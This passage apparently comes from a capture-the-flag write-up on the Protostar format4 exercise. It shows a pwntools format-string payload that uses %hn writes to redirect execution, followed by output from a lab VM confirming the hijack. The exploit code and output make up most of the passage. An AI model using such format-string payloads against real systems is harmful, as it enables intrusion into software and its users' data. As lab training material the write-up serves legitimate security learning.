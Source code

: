 ```python
    payload =  p32(0x08049724) +  b'%33968x' + b"%4$hn"
    format4.sendline(payload)
    print(format4.recvuntil('win'))
    format4.close()






```


And we finally manage to change execution flow of vuln() :

```bash
jeyanthan@pc:~/CTF/PROTOSTAR/format/Format4$ python3 exploit.py 
[+] Connecting to 192.168.160.128 on port 22: Done
[*] user@192.168.160.128:
    Distro    Unknown Unknown
    OS:       Unknown
    Arch:     Unknown
    Version:  0.0.0
    ASLR:     Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Opening new channel: ['/opt/protostar/bin/format4']: Done
b'$\x97\x04\x08      
code execution redirected! you win
[*] Closed SSH channel with 192.168.160.128

```
